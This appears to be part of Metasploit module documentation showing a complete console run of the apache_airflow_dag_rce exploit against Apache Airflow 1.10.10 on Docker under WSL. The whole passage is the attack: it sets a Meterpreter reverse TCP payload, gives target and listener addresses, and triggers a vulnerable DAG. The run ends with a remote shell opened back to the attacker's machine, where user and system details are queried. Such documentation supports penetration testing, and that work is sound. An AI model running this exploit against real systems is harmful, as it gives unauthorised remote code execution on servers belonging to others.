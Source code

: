 ### Apache Airflow 1.10.10 Installed with Docker (WSL Backend) on Windows 10

* Using default TARGET 0 - Unix Command

```rb
msf6 > use exploit/multi/http/apache_airflow_dag_rce
[*] Using configured payload cmd/unix/python/meterpreter_reverse_tcp
msf6 exploit(multi/http/apache_airflow_dag_rce) > set RHOSTS 192.168.99.180
RHOSTS => 192.168.99.180
msf6 exploit(multi/http/apache_airflow_dag_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/apache_airflow_dag_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.99.180:8080/admin/airflow/login
[+] Target is running Apache Airflow.
[*] Checking Apache Airflow version...
[+] Target is running Apache Airflow Version 1.10.10.
[+] The target appears to be vulnerable. However, extra checks are still required to make sure the Experimental REST API is accessible, and the vulnerable DAG is loaded and enabled.
[*] Checking if Airflow Experimental REST API is accessible at: http://192.168.99.180:8080/api/experimental/test
[+] Airflow Experimental REST API is accessible.
[*] Checking for vulnerability of "example_trigger_target_dag.bash_task"...
[+] The "example_trigger_target_dag.bash_task" is vulnerable.
[*] Checking if "example_trigger_target_dag.bash_task" is enabled...
[+] The "example_trigger_target_dag.bash_task" is enabled.
[*] Executing TARGET: "Unix Command" with PAYLOAD: "cmd/unix/python/meterpreter_reverse_tcp"
[*] Creating a new vulnerable DAG...
[+] Successfully created DAG: Created <DagRun example_trigger_target_dag @ 2023-08-11 13:50:02+00:00: manual__2023-08-11T13:50:02+00:00, externally triggered: True>
[*] Waiting for Scheduler to run the vulnerable DAG. This might take a while...
[!] If the Bash task is never queued, then the Scheduler might not be running.
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[*] Bash task is queued...
[*] Bash task is queued...
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:55369) at 2023-08-11 20:21:08 +0630
[+] Bash task is running. Expect a session if executed successfully.

meterpreter > getuid
Server username: airflow
meterpreter > sysinfo
Computer        : b53431a5c934
OS              : Linux 5.15.90.1-microsoft-standard-WSL2 #1 SMP Fri Jan 27 02:56:13 UTC 2023
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter >
```
